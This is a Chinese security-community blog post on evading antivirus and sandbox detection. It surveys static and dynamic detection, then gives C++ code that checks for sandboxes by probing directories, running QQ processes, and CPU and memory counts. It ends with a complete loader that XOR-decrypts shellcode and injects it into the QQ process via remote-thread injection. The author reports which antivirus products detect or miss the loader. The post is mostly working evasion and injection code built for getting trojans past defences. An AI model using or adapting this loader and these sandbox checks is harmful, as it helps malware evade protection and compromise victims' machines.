# 杀软行为分析与对抗与沙箱的初步尝试-先知社区

> **来源**: https://xz.aliyun.com/news/17551  
> **文章ID**: 17551

---

免杀总体上分为静态免杀与动态免杀，各家软件对于木马的行为也不尽相同

### 常见杀软技术

杀毒软件常见是扣分制的，当分数低于某个点则会被认定为恶意软件

#### 静态分析

静态分析指的是通过对文件的文件特征进行扫描，来对文件进行探测

* 特征码：寻找特有的二进制模式来识别
* 熵值检测：一般来说熵越高越容易被扣分，但一般不会作为决定性因素，常见不少的版权软件也会使用混淆来保护程序，这里的例子是我用sgn编码的payload
* 
* 这个是网易云的主程序当然这项也只能作为辅助
* 文件信誉：部分软件在杀软中是有白名单的，例如早先尝试做dll劫持的时候使用的网易云，劫持dll将木马注入网易云能过360
* 加壳脱壳：vmp目前效果不佳，虽然能一定程度静态通过免杀，但在沙盒中一般都是直接标黄为可疑  
  例如这个里面其实只写了个helloword这个就更夸张了，比dll还高，但他还是相对重要的其一是能藏红，其二是能反人工
* 导出表：导出表的作用是对外公布自己所使用的函数与变量，一些常用的函数被检测也可能导致分数的提升
* shellcode加密：一般情况下shellcode以全局变量存储会编译后会存放在.data 或 .rodata 段，其本身也可能被作为特征调查，可以对他进行加密运算后存储，在执行的逻辑中再

#### 动态分析

通过hook实现对应用程序的监控，探测其行为来判断恶意与否的方法

* 沙箱：常见手段，通过一个模拟环境来探测程序恶意行为
* 云查杀：一般与沙箱相辅相成，通过集成大量的杀软环境来对程序批量扫描，常见微步云沙箱virustotal等等
* 启发式扫描分析：根据收集到的资料应该是分为两种，静态与行为，前者通过反编译来识别代码中的特征来对恶意程序进行识别，后者在调用过程中识别是否存在恶意行为
* apihook

### 沙箱绕过

当前的沙箱绕过手段多是对沙箱特征进行探测，例如探测usb接口，探测存在的进程，探测是否不存在某些常见的软件

#### 局限

##### 特征

沙盒的局限是其终归是一个模拟的计算机环境，资源肯定不多，绕过的方法可以探测沙盒与实体机器不同的地方例如探测特定目录是否存在文件（例如微信）是否运行了特定程序（例如微信）延迟注入时间（一般沙盒环境不会开着太久）探测核心数量探测内存数量



当然也会有例外，例如这个4h6g的沙箱

#### 绕过方法

##### 路径存在探测

```
#include <windows.h>
#include <tchar.h>
#include <sstream>

bool DirectoryExists(const wchar_t* szPath) {
    DWORD fileAttr = GetFileAttributes(szPath);
    if (fileAttr == INVALID_FILE_ATTRIBUTES) {
        // 目录不存在
        return false;
    }

    // 检查它是否是一个目录
    return (fileAttr & FILE_ATTRIBUTE_DIRECTORY);
}

void CheckQQNTDirectory() {
    const wchar_t* qqntPath = L"C:\Program Files\Tencent\QQNT";

    // 检查目录是否存在
    bool exists = DirectoryExists(qqntPath);

    // 创建弹窗信息
    std::wstringstream infoStream;
    if (exists) {
        infoStream << L"目录存在: " << qqntPath;
    } else {
        infoStream << L"目录不存在: " << qqntPath;
    }

    // 弹出信息窗口
    MessageBox(NULL, infoStream.str().c_str(), _T("目录检测"), MB_OK | MB_ICONINFORMATION);
}

int main() {
    CheckQQNTDirectory();
    return 0;
}

```



##### qq微信存活探测

一般电脑都会开着qq微信，所以可以在这个基础上做探测绕过探测到相关，难度不高，甚至能复用远程线程注入的代码，大致效果如下

```
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>

// 判断进程是否存在
bool IsProcessRunning(const wchar_t* processName) {
    bool exists = false;

    // 获取系统中所有进程的快照
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot == INVALID_HANDLE_VALUE) {
        return false;
    }

    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);

    // 遍历进程列表
    if (Process32First(hSnapshot, &pe32)) {
        do {
            // 比较进程名称
            if (_wcsicmp(pe32.szExeFile, processName) == 0) {
                exists = true;
                break;
            }
        } while (Process32Next(hSnapshot, &pe32));
    }

    CloseHandle(hSnapshot);
    return exists;
}

int main() {
    const wchar_t* processName = L"qq.exe";

    // 判断 qq.exe 是否在运行
    if (!IsProcessRunning(processName)) {
        MessageBox(NULL, _T("qq.exe 不存在！"), _T("进程检测"), MB_OK | MB_ICONWARNING);
    }
    else {
        MessageBox(NULL, _T("qq.exe 存在！"), _T("进程检测"), MB_OK | MB_ICONWARNING);
    }

    return 0;
}
```



##### 核心探测

```
#include <windows.h>
#include <tchar.h>
#include <sstream>

void GetSystemInfoAndMemory() {
    // 内存
    MEMORYSTATUSEX memoryStatus;
    memoryStatus.dwLength = sizeof(memoryStatus);
    GlobalMemoryStatusEx(&memoryStatus);
    // 系统信息
    SYSTEM_INFO sysInfo;
    GetSystemInfo(&sysInfo);
    // 内存大小
    DWORDLONG totalPhysicalMemoryMB = memoryStatus.ullTotalPhys / (1024 * 1024);
    // CPU核心数
    DWORD numberOfCores = sysInfo.dwNumberOfProcessors;
    std::wstringstream infoStream;
    infoStream << L"系统信息: 
"
        << L"物理内存大小: " << totalPhysicalMemoryMB << L" MB
"
        << L"CPU 核心数量: " << numberOfCores;

    // 弹出信息窗口
    MessageBox(NULL, infoStream.str().c_str(), _T("系统信息"), MB_OK | MB_ICONINFORMATION);
}

int main() {
    GetSystemInfoAndMemory();
    return 0;
}
```

##### 睡眠绕过

sleep函数是不能用了，沙箱会进行时间加速

#### 我推敲出来的完整实现

```
#include <Windows.h>
#include <TlHelp32.h>
#include <iostream>
#include <tchar.h>
//加密的shellcode
unsigned char shellcode[] = {};

DWORD findProessId(const wchar_t* targetProcessName) {
    // 拉取进程镜像
    HANDLE hShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); //创建一个只包含进程的快照。

    PROCESSENTRY32 pe;
    pe.dwSize = sizeof(pe);

    //遍历
    if (Process32First(hShot, &pe)) { // 获取第一条
        do
        {
            // 将 CHAR 转换为 wchar_t
            /*wchar_t wExeFile[MAX_PATH];
            MultiByteToWideChar(CP_ACP, 0, , -1, wExeFile, MAX_PATH);*/
            //比较可执行文件名
            if (wcscmp(pe.szExeFile, targetProcessName) == 0) {
                CloseHandle(hShot);
                return pe.th32ProcessID;
            }
        } while (Process32Next(hShot, &pe));//获取下一条，如果没有跳出循环

    }
    return 0;
}
// 传入 shellcode指针 长度 密钥 直接解密
void xor_en(unsigned char* data, size_t len, unsigned char key) {
    for (size_t i = 0; i < len; i++) {
        data[i] ^= key;
    }
}


int main() {
    unsigned char kay = 0xAA;
    xor_en(shellcode, sizeof(shellcode), kay);
    std::cout << shellcode << std::endl;

    const wchar_t* qqProcessName = L"QQ.exe";
    if (!findProessId(qqProcessName)) {
        MessageBox(NULL, _T("qq.exe 不存在！"), _T("进程检测"), MB_OK | MB_ICONWARNING);
        return 0;
    }
    else {
        const wchar_t* targetProcessName = L"QQ.exe";
        DWORD proessId = findProessId(targetProcessName);
        std::cout << proessId;
        if (proessId == 0) {
            // std::cerr << targetProcessName << "未找到" << std::endl;
        }
        //打开进程
        HANDLE openPr = OpenProcess(PROCESS_ALL_ACCESS, FALSE, proessId);
        if (openPr == NULL) {
            std::cerr << proessId << "打开进程失败" << std::endl;
        }

        //在虚拟地址中分配内存
        LPVOID mec = VirtualAllocEx(openPr, NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); // 大小shellcode决定 权限分配 可访问内存 保留内存区域 可读可写可执行
        if (mec == NULL) {
            std::cerr << "内存分配失败" << std::endl;
        }

        //写入目标
        SIZE_T bytes;
        if (!WriteProcessMemory(openPr, mec, shellcode, sizeof(shellcode), &bytes) || bytes != sizeof(shellcode)) { // 写入内存
            std::cerr << "写入失败" << std::endl;

        }
        HANDLE hThread = CreateRemoteThread(openPr, NULL, 0, (LPTHREAD_START_ROUTINE)mec, NULL, 0, NULL);
        if (hThread == NULL) {
            std::cerr << "创建线程失败" << std::endl;
        }

        return 0;
    }
}
```

不能直接注入explorer不然直接报毒，其实当前的这个免杀效果并不好，火绒已经查出来了，360急速暂时没反应



报告是，沙盒行为木马—注入器变体A，有点崩溃写文章前一天还不杀的，各位师傅测试的时候记得断网测试



360急速版通过



标准版pass



卡巴动态失败静态成功



